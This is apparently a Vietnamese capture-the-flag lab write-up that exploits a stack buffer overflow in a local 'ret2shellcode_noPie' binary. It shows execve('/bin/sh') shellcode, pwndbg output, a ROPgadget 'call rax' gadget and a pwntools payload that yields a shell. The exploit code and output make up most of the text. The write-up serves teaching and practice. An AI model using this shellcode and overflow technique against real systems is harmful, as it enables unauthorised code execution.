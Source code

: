 # *Challenge: ret2shellcode_noPie*
***

- **Kỹ thuật ret2shellcode** là một nhánh của buffer overflow, nơi bạn không gọi một hàm có sẵn như trong ret2win, mà thay vào đó tự viết và nhúng shellcode vào payload, rồi hijack RIP để nhảy vào shellcode đó.
- **Các chế độ bảo vệ ảnh hưởng đến ret2shellcode:**
 ```
 | **Cơ chế** | **Ảnh hưởng**                           | **Giải pháp**                       |
| ---------- | --------------------------------------- | ----------------------------------- |
| NX         | Không thể thực thi shellcode trên stack | `mprotect`, `ret2libc`, hoặc bypass |
| ASLR       | Không biết địa chỉ shellcode            | Tắt ASLR hoặc leak địa chỉ          |
| Canary     | Không ghi đè được RIP trực tiếp         | Leak canary hoặc dùng format string |
 ```
*Với file chall:*
**Dùng checksec để kiểm tra:**
```shell
pwndbg> checksec
File:     /mnt/d/Documents/ISP/TASK1/2_ret2shellcode/ret2shellcode_noPie
Arch:     amd64
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x400000)
Stack:      Executable
RWX:        Has RWX segments
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
- No canary -> có thể buffer overflow
- NX ko bật -> có thể thực thi shellcode trực tiếp trên stack
- PIE: No PIE -> ko cần leak địa chỉ, các địa chỉ của file bin sẽ cố định
- còn lại ko ảnh hưởng đến ret2shellcode
	
-*Xem pseudo code ở IDA xem, chương trình hoạt động ntn:*
- Có 3 hàm chính: run(), init(), main():
Mô tả chương trình: tại hàm main() trước tiên gọi hàm init() khởi tạo các bộ đệm để chuẩn nhập xuất tiếp đến gọi hàm run() nhập a1 và v2 rồi rồi return a1 kết thúc chương trình
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char v4[80]; // [rsp+0h] [rbp-50h] BYREF

  init();
  run(v4);
  return 0;
}
```
```c
void *__fastcall run(void *a1)
{
  char v2[524]; // [rsp+10h] [rbp-210h] BYREF
  int v3; // [rsp+21Ch] [rbp-4h]

  v3 = '\0';
  puts("What's your name?");
  printf("> ");
  read(0, a1, 0x50uLL);
  puts("What do you want for christmas?");
  printf("> ");
  read(0, v2, 0x220uLL);
  return a1;
}
```
```c
void init()
{
  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  setbuf(stdout, 0LL);
}
```
   

***Nhận diện ret2shellcode:***
- Không có sẵn hàm system() hoặc hàm gọi shell trong chương trình
- Chương trình có đoạn code thực hiện hàm read() vào buffer trên stack
-> có thể dùng buffer overflow để điều khiển thanh ghi rip, inject shellcode vào chính buffer (đảm bảo NX bị tắt)
- Shellcode là gì?
     Ta có đoạn code assembly sau:
```asm
section .text
    global _start

_start:
    mov rax, 0x3b                   ; syscall number 59 (execve)
    mov rdi, 2940004513965551       ; "/bin/sh" ở dạng số nguyên 64-bit
    push rdi                        ; đẩy "/bin/sh" vào stack
    mov rdi, rsp                    ; rdi = pointer tới "/bin/sh"
    xor rsi, rsi                    ; rsi = 0 (argv = NULL)
    xor rdx, rdx                    ; rdx = 0 (envp = NULL)
    syscall                         ; gọi syscall execve("/bin/sh", NULL, NULL)
```
*Chức năng của đoạn mã này là gọi syscall execve(“/bin/sh”, NULL, NULL) để mở shell*
 ```
 Disassembly
 0:  48 c7 c0 3b 00 00 00     mov    rax,0x3b
7:  48 bf 2f 62 69 6e 2f     movabs rdi,0x68732f6e69622f
e:  73 68 00
11: 57                       push   rdi
12: 48 89 e7                 mov    rdi,rsp
15: 48 31 f6                 xor    rsi,rsi
18: 48 31 d2                 xor    rdx,rdx
1b: 0f 05                    syscall
```
-> shellcode này những byte xác định trên, mỗi câu lệnh asm tương ứng với những byte xác định đó
-> **Mục tiêu**: cho chương trình return vào 1 con trỏ mà con trỏ đó trỏ vào shellcode chứa ‘/bin/sh’ của ta
***Khai thác bằng pwndbg:**
Theo ida ta thấy lỗi bof chỉ có ở chuỗi v2, chuỗi a1 khai báo đủ nên không có lỗi, ta nhảy vào hàm run() nhập chuỗi 524 kí tự bằng lệnh cyclic xem rip có bị đổi không
 ```shell
 ───────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────
 RAX  0x7fffffffdd00 ◂— 0xa6f6c6c6568 /* 'hello\n' */
 RBX  0x7fffffffde68 —▸ 0x7fffffffe108 ◂— '/mnt/d/Documents/ISP/TASK1/2_ret2shellcode/ret2shellcode_noPie'
 RCX  0x7ffff7e5395c (__lll_elision_init+124) ◂— mov eax, dword ptr [rip + 0x159e6e]
 RDX  0x220
 RDI  0
 RSI  0x7fffffffdae0 ◂— 0x6161616161616161 ('aaaaaaaa')
 R8   0
 R9   0
 R10  0
 R11  0x202
 R12  0
 R13  0x7fffffffde78 —▸ 0x7fffffffe147 ◂— 'SHELL=/bin/bash'
 R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe310 ◂— 0
 R15  0
*RBP  0x6361616161616171 ('qaaaaaac')
*RSP  0x7fffffffdcf8 ◂— 'raaaaaachello\n'
*RIP  0x40126e (run+145) ◂— ret
────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────
b+ 0x401261 <run+132>    call   read@plt                    <read@plt>

   0x401266 <run+137>    mov    rax, qword ptr [rbp - 0x218]     RAX, [0x7fffffffdad8] => 0x7fffffffdd00 ◂— 0xa6f6c6c6568 /* 'hello\n' */
   0x40126d <run+144>    leave
 ► 0x40126e <run+145>    ret                                <0x6361616161616172>
 ```
*-> địa chỉ ret đã bị overwrite -> có quyền điều khiển chương trình*
- Ta có thể truyền các byte cố định của mã asm lên stack và cho thực thi các byte đó để thay đổi return thành syscall execve chiếm shell
***Viết script shellcode và payload bằng python**
Ta có đoạn mã shellcode sau:
```py
shellcode = asm('''
	mov rax, 0x3b
	mov rdi, 0x0068732f6e69622f

	push rdi
	mov rdi, rsp
	xor rsi, rsi
	xor rdx, rdx
	syscall

	''', arch = 'amd64')
```
 
- Để ý chuỗi đầu tiên ta nhập nó nằm trên thanh ghi rax, nếu overwrite địa chỉ rax và địa chỉ của ret thì ta sẽ có thể thực thi đc shellcode ta để trong.
- Ta dùng tiện ích ROPgadget để tìm cái gadget nào đó của call rax or jmp rax
 ```sh
 $ ROPgadget --binary ret2shellcode_noPie | grep "call rax"
0x000000000040100d : add byte ptr [rax], al ; test rax, rax ; je 0x401016 ; call rax
0x0000000000401014 : call rax
0x0000000000401012 : je 0x401016 ; call rax
0x0000000000401010 : test eax, eax ; je 0x401016 ; call rax
0x000000000040100f : test rax, rax ; je 0x401016 ; call rax
```
*-> call_rax = 0x0000000000401014 ; jum_rax = 0x000000000040110c*
- Viết script:
   + ở lần nhập đầu tiên ta sẽ truyền shellcode vào bằng sendafter
   + ở lần nhập thứ 2 ta truyền vào payload return đến call_rax
```py
#Payload
call_rax = 0x0000000000401014

payload = flat(b'a'*536, call_rax)

p.sendline(payload)
p.interactive()
```
p/s: ta truyền vào 536 byte rác vì đã truyền chuỗi “/bin/sh\0” bao gồm 8 byte rồi nên cần truyền thêm 544 – 8 = 536 byte

**Kiểm tra lại bằng debug động xem đã gửi shellcode với payload đúng chưa**
- Kiểm tra shellcode đã được truyền vào tại thanh ghi rax chưa:
 ```sh
 pwndbg> x/10i 0x7ffd6815fcb0
   0x7ffd6815fcb0:    mov    rax,0x3b
   0x7ffd6815fcb7:    movabs rdi,0x68732f6e69622f
   0x7ffd6815fcc1:    push   rdi
   0x7ffd6815fcc2:    mov    rdi,rsp
   0x7ffd6815fcc5:    xor    rsi,rsi
   0x7ffd6815fcc8:    xor    rdx,rdx
   0x7ffd6815fccb:    syscall
   0x7ffd6815fccd:    add    BYTE PTR [rax],al
   0x7ffd6815fccf:    add    BYTE PTR [rax],al
   0x7ffd6815fcd1:    add    BYTE PTR [rax],al
pwndbg>
```
*-> đã giống với đoạn asm mình viết*
 
- Giờ gửi solve.py thử:
```sh
$ python3 solve.py
[+] Starting local process '/mnt/d/Documents/ISP/TASK1/2_ret2shellcode/ret2shellcode_noPie': pid 413
[*] Switching to interactive mode
What's your name?
> What do you want for christmas?
> $
$ ls
 report2.docx   ret2shellcode_noPie       solve.py
 report2.md     ret2shellcode_noPie.i64  '~$eport2.docx'
$ whoami
d1nhdwc
$
```
=> Đã chiếm đc shell

